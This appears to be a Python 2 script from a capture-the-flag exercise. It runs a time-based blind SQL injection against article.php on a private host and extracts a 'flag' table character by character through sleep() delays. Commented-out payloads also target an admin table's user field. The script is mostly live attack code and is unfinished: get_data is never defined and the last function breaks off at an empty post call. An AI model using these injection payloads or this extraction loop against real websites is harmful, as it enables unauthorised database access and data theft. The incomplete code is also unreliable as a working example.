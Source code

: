 ```
# coding=utf-8

import requests
import random
import hashlib
import time

s = requests.Session()
url='http://10.66.20.180:3002/article.php'
tables_count_num = 0
strings = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@!#$%*().&lt;&gt;1234567890`{``}`"


def get_content(url):

    for i in xrange(50):
            # payload = "1 and ((SELECT length(user) from admin limit 1)="+str(i)+") and (sleep(2))"
            # payload = "(select case when ((SELECT length(t.2) from (select 1,2,3,4 union select * from flag) limit "+str(j)+") &gt;"+str(i)+") then 0 else sleep(2) end)"
            payload = "(select case when ((SELECT length(t.4) from (select * from((select 1)a join(select 2)b join (select 3)c join (select 4)d) union/**/select * from flag) as t limit 1 offset 1) ="+str(i)+") then sleep(2) else 0 end)"


            if get_data(payload):
                print "[*] content_length: "+str(i)
                content_length = i
                break

    content = ""

    tmp_content = ""    


    for i in range(1,content_length+1):
        for k in strings:
            tmp_content = content+str(k)
            tmp_content = tmp_content.ljust(content_length,'_')

            # payload = "1 and (SELECT ascii(mid(((SELECT user from admin limit 1))from("+str(i)+")))="+str(k+1)+") and (sleep(2))"
            payload = "(select case when ((SELECT t.4 from (select * from((select 1)a join(select 2)b join (select 3)c join (select 4)d) union/**/select * from flag) as t limit 1 offset 1) like '"+tmp_content+"') then sleep(2) else 0 end)"


            # print payload
            if get_data(payload):
                content += k
                print "[*] content: "+content
                break

    print "[*] content: " + content


def get_response(payload):

    s = requests.Session()
    username = "teststeststests1234\\"

    s.post()

```